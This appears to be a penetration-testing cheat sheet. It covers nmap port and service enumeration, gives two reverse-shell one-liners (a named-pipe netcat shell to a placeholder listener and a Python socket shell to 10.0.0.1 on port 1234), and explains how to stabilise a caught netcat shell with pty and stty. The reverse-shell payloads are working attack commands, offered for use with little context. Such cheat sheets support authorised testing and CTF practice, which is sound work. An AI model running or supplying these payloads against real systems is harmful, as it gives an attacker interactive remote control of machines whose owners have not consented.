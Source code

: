 # Enumeration

```
nmap -sC -sV -p 1-10000 <ip>
```
-sC: to perform default script scans\
-sV: Probe open ports to determine service/version info\
-p: ports to scan

We can also use the following which only scans open ports.
```
ports=$(nmap -p- --min-rate=1000 -T4 <ip> | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports <ip>
```

# Common Shell Payloads
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# Stabilize nc shell

After getting a reverse shell by listening on any port using `nc -lvnp <port>` We can get upgrade the shell by performing the following
1. Run `python -c 'import pty;pty.spawn("/bin/bash")'`. If this gives error like "python dont exist" use python2 or python3 instead.

Just by using this we will get a comparatively better shell. But we can't use autocomplete and arrow keys. For more stable shell

2. Run `export TERM=xterm` in reverse shell and background the process with Ctrl + Z.
3. Run `stty raw -echo; fg` in your own terminal. This will give the stable shell.
